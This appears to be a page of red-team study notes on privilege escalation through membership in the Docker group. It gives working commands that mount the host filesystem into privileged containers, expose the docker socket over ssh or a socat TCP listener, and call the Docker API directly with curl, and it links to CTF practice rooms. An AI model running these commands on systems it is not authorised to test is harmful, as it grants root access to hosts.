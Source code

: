 If a user is part of the docker group, they can interact with the docker daemon without `sudo`. This can be used for [privilege escalation](/cybersecurity/red-team/s4.privesc/index.md).

```ps
$ docker images
$ docker run --privileged -v /:/hostfs <docker_image>
$ docker run --privileged -v /:/hostfs <docker_image> bash
$ docker run --privileged -v /:/hostfs <docker_image> ls
```

The associated docker server socket permissions:

```ps
$ find / -name "*.sock" -ls 2> /dev/null
srw-rw---- 1 root docker [...] /run/docker.sock
```

Explicit usage of the socket:

```ps
$ docker -H unix:///run/docker.sock images
$ docker -H unix:///run/docker.sock run --rm -d --privileged -v /:/hostfs xxx
$ docker -H unix:///run/docker.sock run --rm -d --privileged -v /:/hostfs xxx bash
$ docker -H unix:///run/docker.sock run --privileged -v /:/hostfs xxx ls
```

We may not have `docker` on the target machine, in which case, we may use a tunnel and run `docker` on our machine with `-H`.

```ps
$ ssh -L /tmp/docker.sock:/run/docker.sock [...] # docker -H unix:///tmp/docker.sock
$ socat -d -d TCP-LISTEN:2375,reuseaddr,fork UNIX-CONNECT:/var/run/docker.sock # docker -H IP:2375
```

We may interact directly with the socket too:

```ps
$ curl --unix-socket /tmp/docker.sock http://localhost/<endpoint> [...]
/images/json # GET | list images
/containers/create # POST | create a container
/containers/<cid>/start  # GET | start a container
/containers/<cid>/logs?stderr=1&stdout=1  # GET | container logs
/containers/<cid>/exec # POST | prepare to execute a command on a container (TTY=True)
/containers/<cid>/archive?path=/ # GET | create a tar.gz
/exec/<eid>/start # POST | execute the prepared command (TTY=False, Detach=False)
```

<br>

#### Docker — TCP Privilege Escalation

[![couch](../../../../cybersecurity/_badges/thm-p/couch.svg)](https://tryhackme.com/r/room/couch)
[![docker_talk_through_me](../../../../cybersecurity/_badges/rootme/app_script/docker_talk_through_me.svg)](https://www.root-me.org/en/Challenges/App-Script/Docker-Talk-through-me)

